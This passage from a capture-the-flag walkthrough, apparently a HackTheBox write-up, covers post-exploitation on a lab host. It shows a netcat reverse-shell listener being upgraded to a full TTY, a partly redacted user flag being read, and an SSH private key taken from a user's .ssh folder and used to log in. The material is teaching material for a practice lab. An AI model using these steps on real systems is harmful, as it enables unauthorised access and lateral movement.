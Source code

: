 

I'll upgrade my shell:



    www-data@web:/var/www.md$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    www-data@web:/var/www.md$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@web:/var/www.md$ 



The user flag is in `/home`:



    www-data@web:/home$ ls
    user.txt  www-data
    www-data@web:/home$ cat user.txt
    cc0563a9************************



## Shell as www-data on pki

### Enumeration

#### web

There's not a ton on web. It feels like a Docker container. There's a
`/entry.sh` file that starts SSH and Apache:



    #!/bin/bash
    service ssh restart
    service apache2 restart && tail -f /var/log/apache2/error.log



`ifconfig` shows two NICs, where eth0 has 172.20.0.10 and eth1 has
192.168.254.2 (same subnet as the pki host from the status page).

There is a www-data user in `/home` (which is a bit odd), and a RSA key
pair in `/home/www-data/.ssh`, and the public key is in the
`authorized_keys` file, so I can grab the private key and get an ssh
shell:



    oxdf@parrot$ ssh -i ~/keys/static-www-data-172.20.0.10 www-data@172.20.0.10
    ...[snip]...
    www-data@web:~$
